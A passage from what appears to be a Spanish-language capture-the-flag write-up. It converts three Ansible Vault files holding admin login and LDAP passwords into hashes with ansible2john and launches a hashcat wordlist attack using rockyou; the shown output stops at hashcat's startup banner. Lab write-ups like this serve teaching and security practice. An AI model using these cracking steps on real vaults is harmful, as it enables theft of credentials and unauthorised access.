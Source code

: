 ```bash
          3437333035366235613437373733316635313530326639330a643034623530623439616136363563
          34646237336164356438383034623462323531316333623135383134656263663266653938333334
          3238343230333633350a646664396565633037333431626163306531336336326665316430613566
          3764
❯ awk 'NR==1{print; next} {printf "%s", $0} END{print ""}' pwm_admin_login | tr -d ' ' > temp && mv temp pwm_admin_login
❯ awk 'NR==1{print; next} {printf "%s", $0} END{print ""}' pwm_admin_password | tr -d ' ' > temp && mv temp pwm_admin_password
❯ awk 'NR==1{print; next} {printf "%s", $0} END{print ""}' ldap_admin_password | tr -d ' ' > temp && mv temp ldap_admin_password
❯ cat pwm_admin_login pwm_admin_password ldap_admin_password
$ANSIBLE_VAULT;1.1;AES256
326665343864353665376531366637316331386162643232303835663339663466623131613262396134353663663462373265633832356663356239383039640a346431373431666433343434366139356536343763336662346134663965343430306561653964643235643733346162626134393430336334326263326364380a6530343137333266393234336261303438346635383264396362323065313438
$ANSIBLE_VAULT;1.1;AES256
313563383439633230633734353632613235633932356333653561346162616664333932633737363335616263326464633832376261306131303337653964350a363663623132353136346631396662386564323238303933393362313736373035356136366465616536373866346138623166383535303930356637306461350a3164666630373030376537613235653433386539346465336633653630356531
$ANSIBLE_VAULT;1.1;AES256
633038313035343032663564623737313935613133633130383761663365366662326264616536303437333035366235613437373733316635313530326639330a643034623530623439616136363563346462373361643564383830346234623235313163336231353831346562636632666539383333343238343230333633350a6466643965656330373334316261633065313363363266653164306135663764
```

Para continuar con el proceso de cracking de los hashes obtenidos desde los archivos de Ansible Vault, hemos seguido los siguientes pasos:

1. **Extracción de hashes con** `ansible2john`: Utilizamos el comando `ansible2john` para convertir los archivos de Ansible Vault en un formato compatible con herramientas como **John the Ripper** o **Hashcat**. Esto nos permite obtener los hashes en su forma estructurada para ser crackeados.
2. **Contenido de los hashes**: El resultado de la ejecución del comando muestra los hashes extraídos de los tres archivos. A continuación, el contenido de los hashes:

```bash
❯ ansible2john pwm_admin_login pwm_admin_password ldap_admin_password | tee hashes > hashes
❯ cat hashes
pwm_admin_login:$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8
pwm_admin_password:$ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22809393b1767055a66deae678f4a8b1f8550905f70da5
ldap_admin_password:$ansible$0*0*c08105402f5db77195a13c1087af3e6fb2bdae60473056b5a477731f51502f93*dfd9eec07341bac0e13c62fe1d0a5f7d*d04b50b49aa665c4db73ad5d8804b4b2511c3b15814ebcf2fe98334284203635
```

Al crackear los hashes de Ansible Vault con `Hashcat`, utilizando el siguiente comando:

Nos encontramos con que los tres hashes, correspondientes a `pwm_admin_login, pwm_admin_password y ldap_admin_password`, fueron descifrados con la misma contraseña:

```bash
❯ hashcat -a 0 -m 16900 hashes /usr/share/wordlists/rockyou.txt --user
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
```